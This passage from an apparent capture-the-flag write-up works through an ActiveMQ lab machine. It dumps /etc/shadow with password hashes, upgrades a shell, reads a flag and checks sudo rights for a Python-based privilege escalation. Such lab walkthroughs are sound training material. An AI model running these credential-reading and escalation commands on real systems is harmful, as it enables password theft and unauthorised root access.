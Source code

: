 ```
cat /etc/shadow
root:$6$p4QqejfFHI9$O6oFafk.Q.qo52ZrR2XIV/7CXp8X33YUJwHw5bAjcL5yZEaYhXaevThE3p/UfqPOvYphQUzP9ksyqc4iPaIcf.:18621:0:99999:7:::
daemon:*:18605:0:99999:7:::

                        (...)

messagebus:*:18621:0:99999:7:::
activemq:$6$Ra/XClrOq2ltc.E.$Gh1ytjYL14ZpMXCUQWKSCeJ60eLabxa5QklypSgu3UhQ.p8tLJOK/TeVzhakIvyBQ386J2XwXUHtDhQRg1NoN/:18621:0:99999:7:::
```

Time to upgrade our shell. This is achieved using script.

```
script -qc /bin/bash /dev/null
export TERM=xterm
export TERM=xterm
```

It appears that every command is echoed back to the terminal, but this is no problem.

Snooping inside the directory we landed in, we find the first flag.

```
uname -a
uname -a
Linux activemq 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 GNU/Linux

ls
ls
LICENSE   README.txt   bin   conf   flag.txt   start.sh   tmp   NOTICE   activemq-all-5.9.0.jar  chat.py   data   lib   subscribe.py   webapps

cat flag.txt
cat flag.txt
THM{you_got_a_m3ss4ge}
```

### Gaining Root

It is now time for privilege escalation. A good step in privilege escalation is to check what current sudo permissions you have, and check GTFObins for anything useful.
In our case, we can run Python as Sudo - easy privilege escalation vector!

##### Command:
>sudo -l

```
sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
	env_reset, mail_badpass,
	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
	(root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```
